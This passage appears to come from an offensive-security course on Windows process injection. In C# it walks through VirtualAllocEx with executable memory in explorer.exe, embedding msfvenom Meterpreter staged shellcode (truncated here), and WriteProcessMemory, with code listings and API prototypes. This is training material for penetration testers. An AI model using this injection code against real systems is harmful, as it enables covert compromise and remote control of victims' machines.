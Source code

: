> Listing 5 - VirtualAllocEx function prototype

The first argument (_hProcess_) is the process handle to **explorer.exe** that we just obtained from _OpenProcess_ and the second, _lpAddress_, is the desired address of the allocation in the remote process. If the API succeeds, our new buffer will be allocated with a starting address as supplied in _lpAddress_.

If the address given with _lpAddress_ is already allocated and in use, the call will fail. It is better to pass a null value and let the API select an unused address.

The last three arguments (_dwSize_, _flAllocationType_, and _flProtect_) mirror the _VirtualAlloc_ API parameters and specify the size of the desired allocation, the allocation type, and the memory protections. We'll set these to 0x1000, 0x3000 (MEM\_COMMIT and MEM\_RESERVE) and 0x40 (PAGE\_EXECUTE\_READWRITE), respectively. The _VirtualAllocEx_ invocation is shown below.

```
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
```

> Listing 6 - Calling VirtualAllocEx against explorer.exe

After allocating memory, we'll generate a 64-bit Meterpreter staged shellcode with msfvenom in _csharp_ format and embed it in the code.

Next, we'll copy the shellcode into the memory space of **explorer.exe**. We'll use _WriteProcessMemory_ for this, and again copy the import statement from **www.pinvoke.net**.

```
[DllImport("kernel32.dll")]
static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
    byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```

> Listing 7 - Importing WriteProcessMemory

_WriteProcessMemory_ also takes five parameters given its [function prototype](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory):

```
BOOL WriteProcessMemory(
  HANDLE  hProcess,
  LPVOID  lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T  nSize,
  SIZE_T  *lpNumberOfBytesWritten
);
```

> Listing 8 - WriteProcessMemory function prototype

We first pass the process handle (_hProcess_), followed by the newly-allocated memory address (_lpBaseAddress_) in **explorer.exe**, along with the address of the byte array (_lpBuffer_) containing the shellcode. The remaining two arguments are the size of the shellcode to be copied (_nSize_) and a pointer to a location in memory (_lpNumberOfBytesWritten_) to output how much data was copied. The call to _WriteProcessMemory_ is shown below:

```
byte[] buf = new byte[626] { 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc...

IntPtr outSize;
WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
```
